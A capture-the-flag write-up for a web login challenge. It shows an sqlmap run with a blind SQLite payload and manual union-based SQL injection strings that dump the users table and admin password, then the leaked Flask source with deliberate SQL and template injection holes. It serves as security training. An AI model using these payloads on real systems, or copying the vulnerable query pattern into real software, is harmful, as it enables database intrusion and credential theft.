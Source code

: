 # Simple Web - 0x03(Lab - Normal Login Panel (Flag 1))
###### tags: `CTF` `Web` `eductf`
Challenge: https://login.ctf.zoolab.org/

## Background

## Source Code

### Analysis

## Exploit - SQLi
### Easy way - `SQLmap`
```bash!
$ ./sqlmap.py "https://login.ctf.zoolab.org/" --form -dbs sqlite --dump --risk=3 --level=5
...
---
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username='||(SELECT CHAR(116,86,90,89) WHERE 7681=7681 AND 7766=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&password=
---
```
### Hard way - try&error
1. Check if it has `sqli` problem
Payload: `union'`
![](https://i.imgur.com/xIfsghR.png)

2. Try union based
Payload: `admin' union select 1 --` **→ WRONG**
Payload: `admin' union select 1,2 --` **→ WRONG**
Payload: `admin' union select 1,2,3 --` **→ WRONG**
Payload: `admin' union select 1,2,3,4 --`
![](https://i.imgur.com/3G8F2yP.png)
Obviously, it shows some info when select 4 values

3. Must know the metadata
According to the author, it used `sqlite` as its `DBMS`. As [kaibro cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
    > 爆表名
    SELECT name FROM sqlite_master WHERE type='table'

    Then we can add this in our request
    Payload: `admin' union select 1,2,3,sql FROM sqlite_master WHERE type='table' --`
    ![](https://i.imgur.com/3OBjg43.png)

    Based on the info we leak, there's a table named `users` with <font color="FF0000">`id`, `username`, `password`,and `count`</font> 4 columns

4. Leak password
Payload: `admin' union select 1,2,3,password FROM users --`
![](https://i.imgur.com/p4d4Ep5.png)


## Result
Then we got source code!!!
:::spoiler code
```python=
from flask import Flask, request, render_template, render_template_string, send_file
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()
app = Flask(__name__)
app.config["SQLALCHEMY_DATABASE_URI"] = "sqlite:///app.db"
db.init_app(app)

with app.app_context():
  db.session.execute("""
    CREATE TABLE IF NOT EXISTS users(
      id Integer PRIMARY KEY,
      username String NOT NULL UNIQUE,
      password String,
      count Integer DEFAULT 0
    );
  """)
  db.session.execute("INSERT OR REPLACE INTO users (username, password) VALUES ('admin', 'FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}')")
  db.session.commit()

def login(greet):
  if not greet:
    return send_file('app.py', mimetype='text/plain')
  else:
    return render_template_string(f"Hello {greet}")

@app.route('/', methods=["GET", "POST"])
def index():
  if request.method == "GET":
    return render_template('index.html')
  else:
    username = request.form.get('username', '')
    password = request.form.get('password', '')
    error = ''
    user = db.session.execute("SELECT username, password FROM users where username=:username", {"username":username}).first()

    if user and user[1] == password:
      return login(request.form.get('greet', ''))
    elif not user:
      error += "User doesn't exist! "

    # New feature! count login failed event
    db.session.execute("UPDATE users SET count = count + 1 WHERE username=:username", {"username": username})
    db.session.commit()
    count = db.session.execute(f"SELECT * FROM users WHERE username='{username}'").first() or [0, 0, 0, 0]
    error += f'Login faild count: {count[3]}'

    return render_template('index.html', error=error)


if __name__ == "__main__":
  app.run(host="0.0.0.0")
```
:::
